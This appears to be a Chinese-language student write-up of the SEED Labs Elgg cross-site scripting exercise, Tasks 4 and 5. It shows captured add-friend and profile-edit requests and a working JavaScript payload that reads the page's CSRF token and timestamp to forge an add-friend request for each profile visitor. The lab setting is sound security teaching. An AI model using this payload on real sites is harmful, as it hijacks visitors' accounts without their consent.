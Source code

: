 # Task 4: Becoming the Victim’s Friend

编写一个 XSS 蠕虫，将 Samy 作为访问 Samy 页面的任何其他用户的朋友,这个蠕虫不会自我传播

先用http live header抓一下加/删好友的包：


```
GET	http://www.seed-server.com/action/friends/add?friend=56&__elgg_ts=1665136694,1665136694&__elgg_token=fd9a9_Ls7UPwUtwEuzLjCg,fd9a9_Ls7UPwUtwEuzLjCg

GET	http://www.seed-server.com/action/friends/remove?friend=56&__elgg_ts=1665136694,1665136694&__elgg_token=fd9a9_Ls7UPwUtwEuzLjCg,fd9a9_Ls7UPwUtwEuzLjCg
```

根据上面请求依葫芦画瓢组织一下sendurl(注意一下url里面的friend和friends)

```java
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var sendurl="http://www.seed-server.com/action/friends/add?friend=56" + ts + token;
        
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

Question 1: Explain the purpose of Lines ¿and ¡, why are they are needed?（ts、token）

是用作针对CSRF的安全措施的值，每次加载页面时它们都会更改，这里动态获取使用token实现认证

Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e.,you cannot switch to the Text mode, can you still launch a successful attack?

不能。编辑器模式添加了额外的 HTML 并更改了一些符号，比如`<p>`

# Task 5: Modifying the Victim’s Profile

要求修改受害者的“about me”字段

抓包，先看一下修改“about me”字段对应的post请求content字段中的内容：

```
-----------------------------29413027072745719142433280896
Content-Disposition: form-data; name="__elgg_token"

B4kETnpwfAY-9_DqgFrU3Q
-----------------------------29413027072745719142433280896
Content-Disposition: form-data; name="__elgg_ts"

1665148744
-----------------------------29413027072745719142433280896
Content-Disposition: form-data; name="name"

Boby
-----------------------------29413027072745719142433280896
Content-Disposition: form-data; name="description"

<p>wndmd nmsl hhhhh</p>

-----------------------------29413027072745719142433280896
```